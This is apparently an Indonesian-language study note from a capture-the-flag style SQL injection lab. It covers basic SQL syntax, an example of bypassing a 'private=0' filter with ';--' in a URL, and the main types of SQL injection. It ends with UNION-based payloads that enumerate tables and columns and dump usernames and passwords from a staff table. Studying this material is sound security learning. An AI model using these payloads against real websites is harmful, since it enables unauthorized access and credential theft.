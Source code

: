 ## sql

```
select * from users; => semua table yang di users
select username,password from users; => hanya username dan passwd dari user
select * from users LIMIT 1; => semua table tapi hanya 1 baris
select * from users where username='admin'; => semua table tapi hanya baris yang usernamnya admin

select * from users where username != 'admin'; => semua table tapi selain username admin
select * from users where username='admin' or username='jon'; => baris user admin, jhon bakal tampil
select * from users where username='admin' and password='p4ssword'; => hanya baris yang user admin dan password

select * from users where username like 'a%'; => hanya baris yang usernamenya diawali huruf a
select * from users where username like '%n'; => hanya baris yang usernmnya diakhiri huruf n
select * from users where username like '%mi%'; => hanya baris yang usernamnya di dalamnya ada mi

UNION => Pernyataan UNION menggabungkan hasil dari dua atau lebih pernyataan SELECT untuk mengambil data dari satu atau beberapa tabel; 
SELECT name,address,city,postcode from customers UNION SELECT company,address,city,postcode from suppliers;

insert => masukan data
insert into users (username,password) values ('bob','password123');

update => update data
update users SET username='root',password='pass123' where username='admin';

delete => delete data
delete from users where username='martin';
delete from users; => semua table users
```

## conoth
```
Titik koma di URL menandakan akhir dari pernyataan SQL, dan dua tanda hubung menyebabkan semuanya setelah itu diperlakukan sebagai komentar. Dengan melakukan ini, Anda hanya, pada kenyataannya, menjalankan query:

Which akan mengembalikan artikel dengan ID 2 apakah itu diatur ke publik atau tidak.https://website.thm/blog?id=1SELECT * from blog where id=1 and private=0 LIMIT 1;https://website.thm/blog?id=2;--SELECT * from blog where id=2;-- and private=0 LIMIT 1;SELECT * from blog where id=2;--
```

## sql injection
- In-Band SQL Injection
    -  jenis yang paling mudah untuk dideteksi dan dieksploitasi; In-Band hanya mengacu pada metode komunikasi yang sama yang digunakan untuk mengeksploitasi kerentanan dan juga menerima hasilnya, misalnya, menemukan kerentanan SQL Injection pada halaman situs web dan kemudian dapat mengekstrak data dari database ke halaman yang sama.
- Error-Based SQL Injection
    - Jenis SQL Injection adalah yang paling berguna untuk dengan mudah memperoleh informasi tentang struktur database, karena pesan kesalahan dari database dicetak langsung ke layar browser. Ini sering dapat digunakan untuk menghitung seluruh databas
- Union-Based SQL Injection
    - Jenis injeksi ini menggunakan operator SQL UNION bersama pernyataan SELECT untuk mengembalikan hasil tambahan ke halaman. Metode ini adalah cara paling umum untuk mengekstrak data dalam jumlah besar melalui kerentanan SQL Injection.

```
1 UNION select 1,2,3 
0 UNION select 1,2,database()
0 UNION select 1,2,group_concat(table_name)
0 UNION select 1,2,group_concat(table_name) FROM information_schema.tables
0 UNION select 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'

0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'

0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```

